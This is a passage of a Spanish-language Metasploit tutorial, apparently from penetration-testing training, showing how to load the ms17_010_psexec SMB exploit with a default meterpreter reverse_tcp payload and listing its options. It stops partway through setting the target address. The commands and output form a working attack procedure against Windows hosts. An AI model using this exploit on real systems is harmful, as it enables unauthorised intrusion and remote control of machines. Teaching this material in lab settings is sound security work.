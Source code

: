 Encontramos un exploit para este servicio. Podemos usarlo copiando el nombre completo del mismo y usando `USE` para usarlo: 

~~~
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
~~~

Antes de que podamos ejecutar el exploit, debemos configurar sus opciones. Para ver las opciones disponibles para configurar, podemos usar el comando `show options`: 

~~~
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...

~~~

Cualquier opción con el conjunto `Required` en sí debe establecerse para que funcione el exploit. En este caso, solo tenemos dos opciones para configurar: RHOSTS, que significa la IP de nuestro objetivo (esta puede ser una IP, varias IP o un archivo que contiene una lista de IP). Podemos configurarlos con el comando set: 

